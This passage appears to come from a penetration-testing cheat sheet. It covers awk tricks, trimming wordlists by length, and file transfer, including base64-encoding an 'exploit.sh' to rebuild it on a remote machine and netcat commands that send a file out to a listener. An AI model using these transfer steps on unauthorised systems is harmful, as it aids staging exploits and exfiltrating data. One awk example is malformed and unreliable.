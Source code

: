 ```sh
awk 'BEGIN{OFS=":"} {print $0,$4}' sample.txt
# ORS: Output record separator
awk 'BEGIN{ORS="o" print $0}' sample.txt
```

Generating the specific length wordlist from the original one.

```sh
# 6 length only 
awk '{ if (length($0) == 6) print }' original-wordlist.txt

# More than 5 length only
awk '{ if (length($0) >= 5) print }' original-wordlist.txt
```

<br />

## File Transfer

### Base64

1. **Encode a File with Base64 in Local Machine**

    ```sh
    # -w 0: disabe line wrapping
    base64 exploit.sh -w 0
    ```

2. **Decode Base64 of the File in Remote Machine**

    ```sh
    echo <base64-string-of-file> | base64 -d > exploit.sh
    ```

### Netcat

- **Single File**

    In local machine, open listener for receiving a file.

    ```sh
    # -l: Listen mode
    # -p: Port
    nc -lp 4444
    ```

    In remote machine, transfer a file.

    ```sh
    nc <local-ip> 4444 < ./example.txt
    ```
